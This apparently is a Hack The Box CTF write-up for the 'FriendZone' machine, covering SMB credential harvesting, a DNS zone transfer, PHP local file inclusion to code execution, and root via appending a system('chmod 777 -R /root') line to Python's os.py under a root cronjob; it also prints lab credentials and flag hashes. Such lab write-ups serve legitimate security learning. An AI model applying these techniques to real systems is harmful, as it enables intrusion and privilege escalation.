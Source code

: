 ```yaml
---
layout: post
title: "HackTheBox: FriendZone write-up"
date: 2019-02-20
excerpt: "Really good machine to learn about DNS, also includes LFI and python library poisoning! One of my best ones so far! "
tags: [Hack The Box, Pentesting, LFI, SMB, Python, PHP]
comments: true
feature: /assets/posts_details/FriendZone/images/logo.png
---
```


# Hack The Box: FriendZone machine write-up

Although this machine was rated as easy with 20 points, I found it really challenging and learnt a great deal in some aspects, like DNS. It starts with us checking smb, getting some credentials and then having to do a zone transfer in order to find an admin panel, after which we come across an LFI which leads to RCE. Then, it's just a matter of realising that there is a cronjob running a python script as root which imports the """os""" library, so we can poison it and hence get to root.

The machine runs with ip 10.10.10.123.

## Enumeration

First, I enumerate open ports to discover the services running in the machine:

```sh
nmap -sV -sC -oA nmap/initial 10.10.10.123
```

```console
# Nmap 7.70 scan initiated Thu Feb 14 08:48:29 2019 as: nmap -sV -sC -oA nmap/initial friendzone
Nmap scan report for friendzone (10.10.10.123)
Host is up (0.041s latency).
Not shown: 993 closed ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a9:68:24:bc:97:1f:1e:54:a5:80:45:e7:4c:d9:aa:a0 (RSA)
|   256 e5:44:01:46:ee:7a:bb:7c:e9:1a:cb:14:99:9e:2b:8e (ECDSA)
|_  256 00:4e:1a:4f:33:e8:a0:de:86:a6:e4:2a:5f:84:61:2b (ED25519)
53/tcp  open  domain      ISC BIND 9.11.3-1ubuntu1.2 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.11.3-1ubuntu1.2-Ubuntu
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Friend Zone Escape software
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
443/tcp open  ssl/ssl     Apache httpd (SSL-only mode)
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 404 Not Found
| ssl-cert: Subject: commonName=friendzone.red/organizationName=CODERED/stateOrProvinceName=CODERED/countryName=JO
| Not valid before: 2018-10-05T21:02:30
|_Not valid after:  2018-11-04T21:02:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -39m59s, deviation: 1h09m16s, median: 0s
|_nbstat: NetBIOS name: FRIENDZONE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: friendzone
|   NetBIOS computer name: FRIENDZONE\x00
|   Domain name: \x00
|   FQDN: friendzone
|_  System time: 2019-02-14T10:48:46+02:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2019-02-14 08:48:46
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Feb 14 08:49:30 2019 -- 1 IP address (1 host up) scanned in 61.70 seconds


```

So many things, so let's go one by one.

### SMB server

I connected anonymously to the samba shares and discovered some interesting credentials. For that, I used SMBMap, a useful tool which lets the user scan all shares, list them recursively and even download files:

![Img](/assets/posts_details/FriendZone/images/smb1.png "Img")

![Img](/assets/posts_details/FriendZone/images/smb2.png "Img")

I tried to use the credentials in FTP and SSH, but no luck.
Therefore, I decided to move on to the webserver on port 80.

### Web server on port 80

The main page looked like this:

![Img](/assets/posts_details/FriendZone/images/web80.png "Img")

I tried to run dirbuster and came across what was a rabbit hole: a directory called ```wordpress``` that was empty. I tried to have a look at port 445, but nothing came up. It was time to enumerate port 53!

### DNS enumeration

I was completely new to this so I was advised to watch Ippsec's video of Bank (kudos to him). It indeed turned out to be useful, as the technique was the same: Zone Transfer. What this attack does is the following: the attacker acts as if it were a slave DNS server and asks the server for DNS entries, to which the compromised server complies. Hence, the attacker gets a bunch of useful information data.

The command I used was:

```
dig axfr @10.10.10.123 friendzone.red
```

I used that domain because in the main page there was an email with domain ``friendzoneportal.red`` and, after trying with that and getting nothing I removed the ``portal`` substring.

![Img](/assets/posts_details/FriendZone/images/dig.png "Img")

We can see some interesting domains, amongst which there is one that contains administrator! I added all of them to my ``/etc/hosts`` file.

### Web server on port 445

After adding all the entries, I visited ``https://administrator1.friendzone.red/``.

![Img](/assets/posts_details/FriendZone/images/web445_1.png "Img")

I entered the creds obtained through SMB: ``admin:WORKWORKHhallelujah@#``.

![Img](/assets/posts_details/FriendZone/images/web445_2.png "Img")

![Img](/assets/posts_details/FriendZone/images/web445_3.png "Img")

![Img](/assets/posts_details/FriendZone/images/web445_4.png "Img")

After some enumeration with dirbuster I dsicovered a PHP script called timestamp in that directory, so that gave me a clue of what was really happening: the ``pagename`` parameter includes a PHP script, in this case ``timestamp.php``.

## Getting user

With that in mind, it's easy to guess what to do: I just need to upload a PHP script to SMB (Development share) and then try to include it in the ``pagename`` parameter. Simple, isn't it?

Well, it didn't turn out to be that easy, as I couldn't find the path of ``Development``... After quite a lot of time, someone gave me a hint and told me to look at ``/etc/``. And there is was! I made a simple PHP file called ``test.php`` and uploaded to ``Development``. The contents of the file were:

```php
<?php echo "YESSSSS";?>
```

Then I accessed it with ``/etc/Development/test`` as the ``pagename`` parameter.

![Img](/assets/posts_details/FriendZone/images/test.png "Img")

Okay, so now I just needed to upload a shell and listen with netcat!

![Img](/assets/posts_details/FriendZone/images/rev.png "Img")

And we get the user hash being ``www-data``: ``a9ed20acecd6c5b6b52f474e15ae9a11``.

## Getting root

I started to enumerate the system and came across two interesting facts:

* There is a python script in ``/opt/server-status/reporter.py``:

```py
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer
```

* The ``/usr/lib/python2.7/os.py`` file could be edited!

I then used ``pspy``, a tool to monitor processes without the need of root privileges and got the following cronjob:

![Img](/assets/posts_details/FriendZone/images/pspy.png "Img")

Okay, so we have a python script that runs as root in a cronjob, and this script import os, which we can write. Seems obvious right? It's only necessary to poison the library by modifying the source code of ``/usr/lib/python2.7/os.py``.

I run the following command:

```console
echo "system('chmod 777 -R /root')" >> /usr/lib/python2.7/os.py
```

I waited and voilà! I could now access the root directory and read the flag:

![Img](/assets/posts_details/FriendZone/images/root_dir.png "Img")

And finally we can do ``cat root.txt``:

```
b0e6c60b82cf96e9855ac1656a9e90c7
```

Definitely one of the most interesting and learning-wise machines I've ever rooted! I hope you learnt as well reading the write-up!

---
<center><i>Diego Bernal Adelantado</i></center>
